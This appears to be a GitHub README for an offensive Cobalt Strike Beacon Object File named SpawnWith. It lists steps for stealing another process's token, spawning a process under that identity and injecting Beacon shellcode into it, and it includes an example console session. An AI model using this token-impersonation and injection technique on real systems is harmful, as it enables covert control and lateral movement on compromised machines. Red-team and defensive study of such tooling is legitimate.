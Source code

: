 ## SpawnWith
 
An experimental Beacon Object File (BOF) that provides an alternative to the `spawnas` and `inject` commands.  This exposes a new command, `spawn_with [pid] [listener]`, that performs the following:

1. Obtain a handle to the target process.
2. Obtain a handle to the process' primary token.
3. Duplicate the parimary token to an impersonation token.
4. Get the Beacon `spawnto` value.
5. Attempt to spawn a new process with the duplicated token using `CreateProcessWithTokenW`.
    5.5 If this attempt fails, try `CreateProcessAsUserW`.
6. Inject the Beacon shellcode into the spawned process.
    6.5 Link to the Beacon in the case of P2P.


### Example

```
beacon> getuid
[*] You are DESKTOP-1U6AHIU\Daniel (admin)

beacon> ps
22656 21972 wordpad.exe                            x64   1           DESKTOP-1U6AHIU\test_user

beacon> spawnto x64 %windir%\sysnative\notepad.exe

beacon> spawn_with 22656 tcp-local
[*] Task Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444)
[+] received output:

Spawned PID 45668 and injected 297472 bytes

[+] established link to child beacon: 192.168.0.195
```

![Beacons](beacons.png)